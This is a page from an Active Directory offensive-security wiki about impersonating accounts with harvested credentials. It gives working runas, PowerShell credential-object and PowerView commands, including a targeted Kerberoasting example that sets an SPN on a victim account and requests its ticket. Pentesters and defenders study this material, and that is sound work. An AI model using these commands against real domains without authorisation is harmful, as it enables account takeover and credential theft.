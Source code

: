 ```yaml
---
authors: ShutdownRepo, sckdev
---
```


# Impersonation

When credentials are found (through [dumping](dumping/index) or [cracking](cracking.md) for instance), attackers try to use them to obtain access to new resources. Depending on the harvested credential material type, the impersonation can be done in different ways.

* LM or NT password hash: [pass-the-hash](../ntlm/pth.md)
* RC4 Kerberos key (i.e. NT hash): [overpass-the-hash](../kerberos/ptk.md)
* non-RC4 Kerberos key (i.e. DES or AES): [pass-the-key](../kerberos/ptk.md) (alias for overpass-the-hash)
* Kerberos ticket: [pass-the-ticket](../kerberos/ptt.md)
* plaintext password: the techniques listed below

::: tabs

=== RunAs

RunAs is a standard Windows command that allows to execute a program under a different user account. When stuffing an Active Directory account's password, the `/netonly` flag must be set to indicate the credentials are to be used for remote access only.

```bash
runas /netonly /user:$DOMAIN\$USER "powershell.exe"
```

Since the password cannot be supplied as an argument, the session must be interactive.


=== Powershell

In Powershell, it is possible to impersonate a user by create a credential object and supplying it with the `-Credential` argument in the next command.

```bash
# Credential object creation (prompted)
$credential = Get-Credential

# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Start-Process Notepad.exe -Credential $credential
```


=== PowerView

Most of [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s functions have the `-Credential`, `-Domain` and `-Server` parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. Just like the previous "Powershell" tab, the -Credential option has to be supplied with a credential object.

Here is an example for [targeted Kerberoasting](../dacl/targeted-kerberoasting.md).

```bash
# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
$User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
$User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
```

:::


[SharpLdapWhoami](https://github.com/bugch3ck/SharpLdapWhoami) can then be used to make sure the user is correctly impersonated. A standard whoami command will only return the local user rights, not the users impersonated during remote operations (like LDAP queries to the DC).

```powershell
.\SharpLdapWhoami.exe
.\SharpLdapWhoami.exe /method:kerberos /all
```

